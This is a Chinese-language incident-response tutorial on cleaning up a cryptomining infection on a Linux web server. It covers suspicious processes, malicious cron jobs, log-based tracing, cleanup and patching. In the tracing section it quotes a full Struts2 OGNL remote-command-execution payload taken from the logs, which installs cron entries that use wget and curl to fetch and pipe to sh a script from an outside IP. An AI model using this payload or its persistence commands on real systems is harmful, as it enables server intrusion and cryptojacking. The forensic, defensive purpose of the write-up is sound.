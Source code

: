 ## 第3篇：挖矿病毒

### 0x00 前言

​	随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

### 0x01 应急场景

​	某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![](image/linux-12-1.png)

###0x02 事件分析

#### A、排查过程	

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :

![](image/linux-12-2.png)

![](image/linux-12-3.png)

下载logo.jpg，包含脚本内容如下：

![](image/linux-12-4.png)	

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。

![](image/linux-12-5.png)

#### B、溯源分析

​	在Tomcat log日志中，我们找到这样一条记录：

![](image/linux-12-6.png)

对日志中攻击源码进行摘录如下： 

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} `

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

#### C、清除病毒

1、删除定时任务:

![](image/linux-12-7.png)

2、终止异常进程:

![](image/linux-12-8.png)

#### D、漏洞修复

​	升级struts到最新版本 

### 0x03 防范措施

​	针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```


